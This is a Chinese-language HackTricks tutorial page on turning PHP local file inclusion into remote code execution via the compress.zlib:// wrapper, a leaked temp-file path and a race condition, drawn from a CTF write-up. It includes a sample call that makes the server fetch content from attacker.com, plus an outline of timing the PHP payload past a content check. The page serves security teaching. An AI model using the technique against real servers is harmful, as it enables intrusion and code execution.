 # LFI2RCE 通过 compress.zlib + PHP\_STREAM\_PREFER\_STUDIO + 路径泄漏

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### `compress.zlib://` 和 `PHP_STREAM_PREFER_STDIO`

使用协议 `compress.zlib://` 和标志 `PHP_STREAM_PREFER_STDIO` 打开的文件可以继续将稍后到达连接的数据写入同一文件。

这意味着像这样的调用：
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
将发送请求，询问 http://attacker.com/file，然后服务器可能会用有效的 HTTP 响应来响应请求，保持连接打开，并在稍后发送额外的数据，这些数据也将被写入文件。

您可以在 php-src 代码的 main/streams/cast.c 中看到该信息：
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### 竞争条件到 RCE

[**这个 CTF**](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) 是通过之前的技巧解决的。

攻击者将使 **受害者服务器打开一个连接，从攻击者的服务器读取文件**，使用 **`compress.zlib`** 协议。

**在**这个 **连接** 存在的同时，攻击者将 **提取临时文件的路径**（它被服务器泄露）。

**在**这个 **连接** 仍然打开的情况下，攻击者将 **利用 LFI 加载他控制的临时文件**。

然而，web 服务器中有一个检查，**防止加载包含 `<?` 的文件**。因此，攻击者将利用 **竞争条件**。在仍然打开的连接中，**攻击者** 将 **在** **web 服务器** **检查** 文件是否包含禁止字符 **之后** 发送 PHP 负载，但 **在** **加载其内容之前**。

有关更多信息，请查看 [https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) 中的竞争条件和 CTF 的描述。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
